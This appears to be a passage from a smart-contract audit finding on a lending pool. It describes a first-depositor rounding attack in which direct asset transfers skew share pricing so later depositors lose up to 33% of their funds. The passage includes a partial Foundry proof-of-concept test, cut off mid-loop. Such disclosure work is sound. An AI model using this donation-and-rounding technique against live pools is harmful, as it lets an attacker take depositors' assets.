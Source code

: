 
So when a user comes to the deposit get some shares but they lose of assets which get proportionally divided between existing share holders (including the attacker) due to rounding errors.
- users keep losing up to 33% of their assets. (see [here](https://www.desmos.com/calculator/0hrgaxkdyr))
- This means that for users to not lose value, they have to make sure that they have to deposit exact proportion of the attacker shares is an integer.


## Impact
- Loss of 33% of all pool 1st depositor funds 

## Code Snippet
```solidity
function testInternalDepoisitBug(uint96 assets) public {
        vm.assume(assets > 0);
        
        // address notPositionManager = makeAddr("notPositionManager");
        
        vm.startPrank(user);

        asset1.mint(user, 50_000 ether);
        asset1.approve(address(pool), 50_000 ether);

        pool.deposit(linearRatePool, 1 ether, user);
        
        vm.startPrank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        asset1.mint(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY), 50_000 ether);
        console2.log("balance",asset1.balanceOf(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY)));
        pool.borrow(linearRatePool, user, 1e16 );

        


        vm.warp(block.timestamp + 10 seconds);
        vm.roll(block.number + 100);


    
        uint256 borrowed = pool.getBorrowsOf(linearRatePool, user);
        pool.repay(linearRatePool,user, borrowed);

        
        vm.startPrank(user);
        uint256 asset_to_withdraw = pool.getAssetsOf(linearRatePool, user);

        // able to transfer because the withdraw function is calculating the total balance using the balanceOf(address(this))
        asset1.transfer(address(pool), 10000003000000001);
        asset1.transfer(address(pool), 200496896);
        

        pool.withdraw(linearRatePool, asset_to_withdraw-2, user, user);
        (,,,,,,,,,uint256 totalDepositAssets,uint256 totalDepositShares) = pool.poolDataFor(linearRatePool);

        

        for(uint8 i = 1; i < 75; i++){
            console2.log("loop", 2**i+1);
            pool.deposit(linearRatePool, 2**i+1 , user);
            // recived shares must be 1 share
```